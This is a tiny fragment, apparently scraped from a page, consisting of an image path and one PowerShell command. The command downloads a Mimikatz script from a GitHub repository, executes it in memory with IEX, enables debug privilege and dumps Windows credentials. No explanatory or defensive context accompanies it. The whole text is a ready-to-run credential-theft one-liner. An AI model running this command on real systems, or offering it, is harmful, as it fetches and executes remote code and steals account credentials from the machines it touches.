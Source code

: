 IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/frkngksl/FixedInvokeMimikatz/main/invokeMimi.ps1"); Invoke-Mimikatz -Command privilege::debug; Invoke-Mimikatz -DumpCreds;
